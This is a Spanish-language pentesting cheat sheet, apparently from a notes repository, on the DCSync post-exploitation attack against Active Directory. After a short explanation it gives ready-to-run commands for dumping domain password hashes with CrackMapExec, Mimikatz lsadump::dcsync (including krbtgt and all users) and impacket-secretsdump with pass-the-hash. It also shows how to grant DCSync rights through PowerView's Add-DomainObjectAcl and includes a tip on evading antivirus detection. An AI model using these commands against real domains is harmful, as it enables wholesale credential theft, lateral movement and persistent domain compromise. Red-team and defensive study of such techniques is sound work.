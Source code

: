 # DCSync

Tags: #AD #DCSync #Persistencia #Windows 

DCSync es una técnica de post-explotación en entornos Windows, específicamente en redes que operan con Active Directory (AD). Este método permite a un atacante con privilegios elevados imitar las funciones de un Controlador de Dominio (DC) para obtener información sensible de otros DCs. Entre los datos comprometidos se incluyen hashes de contraseñas de usuarios, claves de cifrado de Kerberos y otros elementos protegidos que normalmente solo están disponibles para los Controladores de Dominio.

```bash 
# Cómo funciona DCSync
1. Privilegios Necesarios: Para ejecutar un ataque DCSync, el atacante necesita tener privilegios de nivel alto en el dominio, típicamente como un usuario con el rol de "Domain Admin" o similar.
2. Mimikatz y DCSync: Una de las herramientas más populares que implementa este ataque es Mimikatz. Mimikatz tiene un módulo llamado 'lsadump' que puede utilizarse para realizar un ataque DCSync.
3. Replicación de Directorio: El ataque se basa en la funcionalidad legítima de replicación de directorio entre Controladores de Dominio. El protocolo de replicación de AD, MS-DRSR (Microsoft Directory Replication Service (DRS) Remote Protocol), permite a un DC obtener actualizaciones de datos de otro DC. Un atacante puede utilizar este protocolo para simular una solicitud de replicación.
4. Solicitud de Datos de Cuentas: Un atacante puede solicitar los datos de ciertas cuentas específicas, o incluso de todas las cuentas en el dominio, lo que incluye los hashes de las contraseñas de NTLM y los tickets de Kerberos (TGTs).
5. Extracción de Información Sensible: El ataque permite que el atacante extraiga información que puede ser utilizada para aumentar su nivel de acceso o para comprometer aún más la red, realizando ataques de movimiento lateral o elevación de privilegios.
```

```powershell 
## Extracción de Credenciales del Dominio de Active Directory

Cuando se realiza una tarea tan crítica como la extracción de credenciales de un dominio de Active Directory, es fundamental comprender la importancia y la sensibilidad de los archivos involucrados. El archivo NTDS.dit es esencialmente el corazón de AD, ya que contiene todas las cuentas de usuario, contraseñas hash y otros datos críticos del dominio. Por lo tanto, es un objetivo primordial en las actividades de post-explotación y debe ser manejado con extrema precaución y bajo estrictas medidas de seguridad.

El archivo de sistema, comúnmente conocido como el hive SYSTEM, contiene configuraciones clave del sistema y es necesario para descifrar los hashes de contraseñas almacenados en NTDS.dit.

Normalmente, puedes encontrar el archivo ntds.dit en dos ubicaciones:

❯ 'systemroot\NTDS\ntds.dit'
❯ 'systemroot\System32\ntds.dit'
    
Y la ruta del SYSTEM en:

❯ 'C:\Windows\System32\SYSTEM'

Es común que estos archivos sean el objetivo principal de herramientas de extracción de credenciales, como el ataque DCSync que emula el comportamiento de un controlador de dominio solicitando información de usuario de otros controladores de dominio sin necesidad de ejecutar código en el controlador de dominio objetivo.
```

```bash 
# Estos privilegios los tienen los usuarios 'Domain Admin' 

1. DS-Replication-Get-Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes In Filtered Set 
```

## Utilizando CrackMapExec

```powershell
# Comando para usuarios con altos privilegios 

❯ ./cme smb 3.14.245.175 -u "admin" -p "Password@1" -d "domain1.corp" --ntds   # Nos muestra loas hashes de los usuarios, por lo que se puede hacer 'Pass-The-Hash'
```

## Utilizando Mimikatz

```powershell
❯ .\mimikatz.exe 
	# lsadump::dcsync /domain:domain1.corp /user:krbtgt    # Obtener el hash NTLM
```

```powershell
# Para exfiltrar todos los usuarios del dominio:

❯ .\mimikatz.exe
	# lsadump::dcsync /domain:domain1.corp /all /csv
```

## Utilizando Impacket-secretsdump

```powershell
❯ impacket-secretsdump -debug -dc-ip <IP> admin@domain1.corp -hashes :64fbae31cc352fc26af97cbdef151e03 
	
	# debug = Obtener mas info 
	# dc-ip = Dirección IP del DC
	# upn 'UserPrincipalName' = Nombre del usuario y DC
	# hashes = Hash del usuario 'NTLM'

Nota: Es mejor hacer un 'Pass-The-Hash' con el 'aes256' que con el 'rc4' ya que los AV los detectan más fácil 
```

## DCSync 

```powershell
Si se tiene un usuario en el grupo 'Exchange Windows Permissions', se puede ejecutar un DCSync para obtener los hashes de todos los usuarios y hacer un Pass-The-Hash

❯ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
❯ $Cred = New-Object System.Management.Automation.PSCredential('domain1.local\user', $SecPassword)
❯ Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=domain1,DC=local" -PrincipalIdentity <user> -Rights DCSync 

Nota: El comando de 'Add-DomainObjectAcl' solo se puede ejecutar cuando se carga el módulo de 'PowerView.ps1'


# En Kali ejecutar el siguiente comando para hacer el DCSync
❯ secretsdump.py domain1.local/user@IP-DC    # Ejecutar el DCSync con las credenciales del usuario creado en el DC
```